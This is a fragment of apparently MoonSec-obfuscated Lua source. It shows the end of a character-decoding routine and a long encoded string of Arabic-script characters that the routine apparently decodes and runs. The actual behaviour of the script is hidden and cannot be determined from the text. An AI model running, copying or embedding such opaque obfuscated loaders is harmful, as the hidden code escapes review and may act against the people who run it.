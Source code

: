 <n+M do l.v[o]=a:sub(e,(function()e=r+e return e-M end)())o=o+d if o%N==L then o=m A(l.j,(Y((l[l.v[m]]*p)+l[l.v[d]])))end end return w(l.j)end)("..:::MoonSec::..؃دحجئضسزقكنؠآټڪڝؠئححنقنحكآس؃كضقنقئزڪآنكحئئڪكقؠڝټضنئڪئقئح؃ڪنڝكدكجسجئجكجدق؃آ؃س؃؃ؠكنآ؃نآدضئؠآحنؠزقسكحضټضدضسقټڪضآؠنڝكئقڪققآڝؠقنسزنسنضدحزټضڝحټسقحكڪسآئئحؠڝكح؃ڪكڪؠنآنسضسڝڝڝقڝحڪآئضنؠڪئټئآڪآقدزڝڪټئؠؠنڪكجزضض؃جكدسقككسزنزئسڪندنزققزدئسحقدټڝحټضزضؠ؃قسزضئټڪكڝن؃؃ڪئآزك؃قسسقضڝڪزټقټحآآڝڝڝڝټقټئنئكضئڪس؃جقضؠك؃قئزڪزقؠدنڪقڝزآضقجئآكئآئحجآجسضڪسؠضسجحڪجدق؃آ؃س؃؃جحڝدڪحڪڪڪزححضدټضآنآئؠڪددڪقآنؠككټآضكڝقڪقققحؠدؠقك؃زحسدحكحك؃حڝڪآڪؠڝجټجنحڪحقححدآكئڪڪڝسؠحڝسكآڝحڪآڪسڪ؃ټنټئح؃؃قؠسؠآؠسؠ؃نننئجسدنټححڝقآق؃زنزئسجززندزسجئآئزئسؠجڪجقجحسڝئز؃ئنزسسدآآدج؃؃؃كسكدض؃؃جؠحسقڪحقنجټحضټټكنجټڝآؠحضزټئآ؃زجڪڪؠزك؃ح؃ټټؠسضآڪڪؠڝسححټكئئزجسج؃حنسؠجزڪئجححؠآؠحددؠؠڪضضټئجسټآټسټ؃آنآئؠڪ؃دڝحكڝنآن؃كنكئحزټئننقحدزآج؃ټسنضڪضقضحټئجئنآؠآضنټضڝئححدآدسد؃؃نئئضججقدڪڪآڪسڪ؃ټنټئ؃ڪضز؃حققؠسؠ؃نننئكڪكقآنآآؠدقجزنزئسڪؠڝكنك؃ئكضسئنئئجڪؠئدددسڝآحئنئټآقن؃ق؃حڝآڝسڝ؃سنجزدڪزآټحآآآسآ؃ؠنټآجئڪقدټندكسك؃قنڪدؠحكزقضسح؃نس؃ضنضئئڪئقئحسسزسضؠجئحئدڪدقئئئآحئ؃ڪڝ؃ؠؠؠئككق؃سؠزكټئآنآئؠڪڝئڪڪڪجؠحدؠنجكئقڪققؠڪؠحنضزآس؃ئټ؃ندآڝئض؃ئسئ؃جنجئحڪآئؠنضآدقدد؃ن؃ئڝڪسؠدټڝحڪسڪ؃ټنزڪضجدئضحزڪ؃جضحؠ؃نئكڪكقڝنآټن؃س؃جؠ؃ؠآ؃سكسحضآضسؠضدسئئجڪجقجححآڪسزدضنټڪ؃ڝ؃ق؃حڝآضزسؠڝئڪئټڪټقدنڝڪڝسآآنڪنئقضضآئ؃ج؃ڪنك؃قنقئزڪزقزحضآنضټنضڪضئئڪئقنجسكدجؠجنضحآدڪدقدحئضئقج؃؃نڝكټحؠآكڝآڪټزټ؃آنآئحڪضؠؠكنآنسن؃ڪنآآؠڝكضزقسضضدسئسنسئضڪضقضحقآكنق؃جټجؠحڪحقححسؠضؠجآدڪڪزآ؃كڝڪضڝضڪسڪ؃ټندد؃سڝټټټكككحززضڪئكدقكڪكحقآقسڪحټؠآزنككئكئقسسټض؃ئنئئنڝسضئدڝ؃آققڪئسدؠټسكزججڪڪؠئقئئس؃ڪټئكئضټحزڪآؠ؃زن؃زؠئنقنحكآڪآضكدضحضدټددجټزجسسس؃ضنقټقټسسسحجححج؃قدڪحئدڪدقدح؃آآسضحجنكزڝئڪقڪحټآحڝحقحڝئآټحضكؠضؠدنسن؃كنآسآڪنسك؃زحآكزسسنسئضڪقئكئزضضآئجڪقجسضقحقححدآزټق؃ززسنحؠدز؃ڪئټئئجؠڪكحئدق؃ح؃جڝټڝټننټسټكآڪقزؠ؃ؠكؠ؃كككڝضدضقزكسؠجؠحڪحددؠد؃؃زڝنڪڝڪؠڪئټضڪئجد؃ڪ؃ق؃حئڝ؃آؠسسكؠڝقآسس؃ننق؃آ؃حكڝئؠڝضضكئئ؃ئضئحنڝضكټئجڪسنجڝسؠئضټ؃سنڝندئآئحجآجسق؃ضڪئڪحندؠدن؃آ؃س؃؃حآجضدڪ؃جټئآضكڪقئڝضټئؠڪؠقؠحټزټنآ؃نآقآزؠضآئسحجڝټآ؃ټ؃ؠدكقزڝحئجڝئنئ؃جنجئسزسزئ؃جآدكدج؃ن؃ئڝڪئضجندسجنټټقڪؠسآټزآڝدزآزضضجنڪنئكڪكقآدآڪؠدكؠدڪزئسڪسقسحضآضسضققنڪزئقجقجححآسحسحئآحټ؃حڪقؠننآكټقسؠسڪئټڪټقټحآآئس؃؃ڝنحڪؠحنقنحكآڝزنئسئدحڝنزقزحسآسسس؃ضنزئقڪجؠئڪجآجسج؃ضڪضقحن؃آڝقڝجنڝنڪنحقؠزضضكقضڪدټسټ؃آن؃حټضټڪآسسڝټحجكئټكج؃ڪټټكزئقؠضكؠسڪسئضڪضققڝقئزؠضؠؠضجكحڪحقححزضضؠجسدڝ؃كندڝڪڝحڪآڪسآحجڝڪټسد؃ج؃ئڪزؠټؠ؃نننئټنټنآئندزؠئئئجآززجسقسحضآقضكضسقضقجئقؠجنحآحسح؃ضزئآئجحجڪسڪ؃ټضنئؠسددسټآڪك؃؃ؠقؠقحزك؃زؠئنقنحكآآؠټحؠسكؠزئضزدضزدسسس؃ضنك؃قئسڪحڝجسجقئټحنحئدڪسؠجدڪئن؃ڝڝټضؠقسض؃آزكزقدڪټجقسڝجڪزؠ؃؃كڪقؠآسټدآآققڪڪنؠدسجدضآزڪجسئضدسحضحئآئسزټزحسكئكڝآ؃آڪټټئؠؠس؃ټ؃ڝڪڝقڝحڪآڪسڪ؃ټنټئئكآټآحؠآؠسڪكڪسټضنقكدڪسقآقسق؃زنزئئڪټزنحضڝضآض؃ئنئئكنزڝسدجآحض؃حڪسآ؃؃ڪكؠڪدكئجزآسحكقزڪكټقټحآآڝڝڝئڪؠآټنققسزحججج؃حدڝؠ؃؃ض؃دقدؠسؠئضنحؠضكجآكئڪئحجآجسڝجكدنكنڝقكؠكټز؃ن؃؃ڝنڝئئڪدآ؃قڝزحكټآآنآئؠڪڝدڝدآنآسق؃قجئؠئححڪدئڝڝټحآجزسسئضڪضقكحق؃سآضؠدددڪ؃ضؠنآجنققڝسؠضڪسضقټك؃ؠدزڝدجنټدك؃؃ټڪزڪحضكآڝحقكزآڪجآقټنكحقآقسآ؃نټقججآددقزنقسسجئنزؠحقكئ؃دنټزضزئكجسڝقآضجڝجس؃جؠڝقئضكڪڝڪننئزكئضڝآټدسزسسح؃ڝجنڝئڝئسدئټؠسڝضنحؠڝسآحزآدڝدكټڪككسؠجس؃زكزضڝضؠجزڝآآټئزضجحسڪټنآڪسڝحڪقڪحټآجقڝحن؃سسدحؠقؠحنآنسن؃ټنڪضآڪټآقحزآزسز؃سنسئؠدكقآڪئآئسئ؃جنجئحڪسڪسح؃ڝدآد؃؃ن؃ئجكسدككجټسد؃ڝ؃ضټټآڪآقآحڝآڝقټڝؠآنققكضڪئئحنحنق؃زنزئسڪسقسحنسكسآآكجسسجزضزټحڝئ؃زضڝڪسؠقضزضڝححټڪنؠآټحكڪسجسټقټحآآ؃ؠ؃زڪكآجكټحححئدننټټڝنڪقټددحؠ؃ڝڪڪؠنكحق؃؃؃دڪ؃نټ؃نزكحسنجئآقڝضآحكآزڝ؃ضجدڝنټكؠؠكحسڝڝئحدڪڪآئنسجد؃آ؃زڪؠآجنحئزئآدڪڝجڪدنكضټسقجڪ؃نڪټآكنؠئآضقحج؃كڪسنڪكئجؠجټحدآسټسندزټضس؃جڝڝڪزنڝكنسقدكحؠڝنټك؃كؠقنننئكڪڝئنآؠآنزسضضقجڝ؃حكجسقضآضسض؃قجزقسټئئجددؠآنح؃دندئ؃ڪ؃قڪحقئجسآڝڪؠڪئټڪټنحؠآآآسآ؃ؠنؠئنڪنقؠئڝئكسك؃قنؠ؃زڪزقزحسآسسس؃ضنضئئڪئقئحجآجسج؃حنحضدڪدقدح؃آ؃سدحڝنڝئڪڝڪقحټټآټسټ؃ټآآئؠڪؠكؠحؠحنسن؃كنؠنقڪقققجزآزڝز؃سؠسئسجضقضسققئسئ؃جنجټحڪحكححدآضڪد؃؃ن؃ئڝڝڝقڝحڪآڪقجكټنټضآڪآآآحؠآؠسآحټؠنئكڝكق؃ئقآقسق؃زنآنسڪسكسحضآضسض؃ئنضسقكجقجئحآحڪح؃دندئد؃سد؃حڝڝڝسڝجڪنڪئټڪټقڪحآآآنآ؃ؠؠؠئنڪنقنحكآكسكضقنقززڪزقزحزڪسسس؃س؃ضئضضئقئحجآجسج؃حنحكدڪدندح؃ڪ؃س؃سڝنڝئڝحڪقجټټآټزټ؃آڝآئآحڝئؠحنآنسڝؠكنكضقڪققكسزآزؠز؃سټسئضڪضقسئقكئسئسجنضئحڪحقحححڪدسد؃دد؃ئز؃ڝقڝحڪآڝقڪ؃ټنټآآڪڝټآحؠآؠسآحنننئنزكقڝجقآقسق؃قآزئسڪزحسحزټضسض؃ئنئئجڪجقجكحآج؃ح؃دآدئ؃ڪ؃ق؃ح؃حڝسڝسڪنڪؠټڪټقټحآآآؠآ؃ؠآؠئؠ؃نقنقكآكسكئقنټڝزڪزكزحزدسسسئكسضئئڪئقكټجآجزج؃حنجقدڪدټدح؃ڝ؃س؃؃ڝن؃سحؠڪقڪقټآڝسټ؃آنآئټ؃ؠقؠحؠجنسدحكنكئقڪكنقحزآزڪز؃كحسئضڪضقسئئآئسئكجنسڪحڪحقحححڪدسد؃دئ؃ئسكڝقڝحڪآڪسڪ؃ټنټؠآڪټحآحؠڪؠسؠ؃نننئنئكقكققآقټق؃زنزئسڪسټسحضڪضسضحئنئنجڪجقجسحآقدح؃دؠدئدج؃ق؃سجقڝسڝ؃ڪنجڝټڪټكټحآآټنآ؃ؠڝؠئؠدنقنحكآكقڪكقنقنزڪزكزحسآسسس؃كڪضئضجئقئئجآجقج؃ج؃سجدڪدټدحسس؃س؃دڝنڝئڪڪڪآدڪټآټسټ؃حئآئؠڝؠقؠحآ؃نسنضكنكزقڪقققحقڪؠآز؃ز؃سئؠؠضقضحئآضقئ؃جنجؠحڪسؠححدآدسحح؃ن؃ئ؃سڝقححڪآڪسڪ؃ټنټئآڪآڝآحآجؠسؠقننننكڪكقككقآؠټق؃زؠزئسڪسقسسكقضسض؃ئنزؠجڪجكجحج؃سحح؃دندئئن؃ق؃جڝآ؃قڝآڪنڪؠټڪئنټحآآآسټح؃ضؠئؠسنقڪؠكآكسك؃كآآڝزڪقدزحټقسسس؃ضنسسككئقئآجآن؃ج؃حنحئدڪجئدحدج؃س؃نڝنڝسڪڪڪقڝؠټآټآټ؃ټ؃آئآضؠقؠقڪآنسنسكنټئقڪقكقحزټزسزئنسسئضڪضقكحئآئزئ؃ئآئ؃حڪحڪححئټدسد؃؃ن؃ئئحڝقڝزڪآڪقڪ؃ټآټئټئڪجآحآ؃ؠس؃ؠنننضكڪكټكحك؃آحق؃زنزئآكسقسجضآضسسئئنئكجڪجؠجححآحسجحضزدئدئ؃قضڝڝآڝسڝ؃ڝآڪئټڪټڝټحجڪآسآ؃ؠنآسنڪنقننكآڝڪك؃قنقئك؃زقزحزضسسسڝضنضئئڪضنئحجآئ؃ج؃كجحئدڪدقدح؃آ؃س؃زڝنڝڪڪڪڪنڪحټآټسټ؃ټ؃آئآئؠقؠكنآنسن؃كنككقڪقنقحزڪزسزسسنسئسحضقنټئآئزئ؃جڝجئجحسئححدآدسسؠ؃ن؃ضڝڪڝق؃سڪآڪؠڪ؃ټټټئآڪآقټئدجؠسؠسنن؃دكڪكقكحكڪقسق؃قدزئڪ؃سقسحضآسقض؃ئنئآجڪسسجححآحسجحدندئدز؃قدقڝآڝسڝ؃ڝآڪئټڪڪحټح؃ضآسآ؃ؠنؠئنڪنقنككآن؃ك؃قآقئزڪزقزحزحسسسسضنضؠئڪئقئحجآجؠج؃حآحئح؃دقدح؃آ؃س؃ئڝنڝكڪڪڪقڪحڪ؃ټسټ؃آنآئدكؠقؠجنآنسؠټكنكققڪقققحزآزسز؃آ؃سئسحضقضجئآئسئ؃ئ؃زئحڪحآححزندسدد؃ن؃ضڝڪڝآحڪڪآڪسڪ؃جقټئآڝآقآسڝقؠسؠ؃نن؃نكڪكككحؠآؠنق؃زڝزئؠئسقزڝضآسققدئنئكجڪسججححآحسح؃سحدئ؃ڪ؃ق؃جڝآڝسڝ؃ڝآڝ؃ټڪټټټحټكآسآ؃ؠنؠنټئنقنقكآكقك؃قؠقئزڝزقزحزدسسس؃ضنضسئڪئقئحجآق؃ج؃حڝحئح؃دقدج؃آ؃نجآڝنڝئڪڪئكڪحټټټسڪحټسآئآجؠقڝحنآنسن؃ؠنټحقڪقټقحقدزسقؠسنزسضڪضقضقئآؠقئ؃جنجئئ؃حقحححجدسدد؃ن؃ئڝڪ؃نڝحڪآڪڪڪ؃ددټئآڪآقټئؠآؠسؠكننآحكڪكقكحقآقسق؃ق؃زئززسقسئضآسقض؃ئنئؠجڪنضجححآحسح؃دندئدج؃ق؃كڝآڝقڝ؃ڝآڪئټڪټټټحڝحآسآ؃ؠنآسنڪنقنزكآؠآك؃قنقئنڪزقزحزدسسؠؠضنقدئڪضنئحجآجؠج؃ض؃حئدڪدقئح؃آ؃س؃ضڝنڝڪڪڪ؃دڪحڪڪټسټ؃آڝآئڪئؠقؠحنآؠقن؃كنكنقڪڝنقحزآزسقحسنسئسضضقققئآئسئ؃ئآجئحڪج؃ححئجدسد؃؃ندسڝڪڝقڝؠڪآضئڪ؃ټنټئآڪآقآحآحؠسؠكنننسكڪنقكحقآقؠق؃آؠزئزئسقزئضآضسضضئنسنجڪجقجحضآحسح؃دڝدئسج؃قضنڝآ؃قڝ؃ڪنڪكټڪڝڪټحآآآسڝ؃ؠنؠئؠجنق؃ضكآڪڪك؃كآقئزڪزټزحكحسسس؃ضنزئئڪئقئزجآجؠج؃سآحئدڪدقدحدد؃س؃حڝنڝضڪڪڝنڪحټآټؠټ؃حآآئؠڪؠقآئنآنسنسكنآدقڪقققحزآزسز؃سڝسئس؃ضقضجئآضقئ؃جنجكحڪسقححدآدسج؃؃ن؃ئ؃جڝقڝزڪآ؃دڪ؃ڪآټئآڪآڪآحڪ؃ؠسؠ؃نننئكڪكقكزقآققق؃زآزئق؃سقسحسحضسك؃ئنئئجڪضقجححآحآح؃ح؃دئحك؃قدئڝآڝسڝزڪنجسټڪټقټحآآآسآ؃آ؃ؠئؠ؃نقنئكآنقك؃قنقؠزڪؠقزحسآسسق؃ضنضئضضئقئكجآضدج؃جآحئدڪح؃دحج؃؃س؃؃ڝنڝئڪڪڪقڪكټآټقټ؃آآآئټ؃ؠقؠحؠئنسڪ؃كنكئقڪنققحزآزڪز؃زحسئزكضقسئئآئسئكج